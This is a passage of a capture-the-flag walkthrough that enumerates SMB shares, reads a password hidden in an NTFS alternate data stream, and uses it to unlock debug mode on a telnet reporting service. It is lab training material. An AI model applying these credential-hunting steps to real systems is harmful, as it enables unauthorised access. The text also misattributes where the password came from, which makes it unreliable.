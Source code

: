 ```bash
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019

                10485247 blocks of size 4096. 6545907 blocks available
smb: \C.Smith\> 
```
we simply transfer this file to our box and we read our user flag.

```bash
smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6545907 blocks available
```
The file `Debug Mode Password.txt` seems to be empty but we run `allifo` on the file which proves that it is in fact not empty.
```bash
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```
So we can simply just read the file with 
```bash
more DEBUGM~1.TXT:Password:$DATA
```
This takes us into a nano session and gives us the password `WBQ201953D8w`

We take a look at port `4386` now using telnet, when we connect we can see that it is runnign the HQK reporting service that had files on the  smb shares.

We run help to check what command we can run in the limited shell:
```bash
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
```
We see that one of the options is debug mode with a password we try it out with the one we retrieved from the xml file earlier.
```bash
>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---
```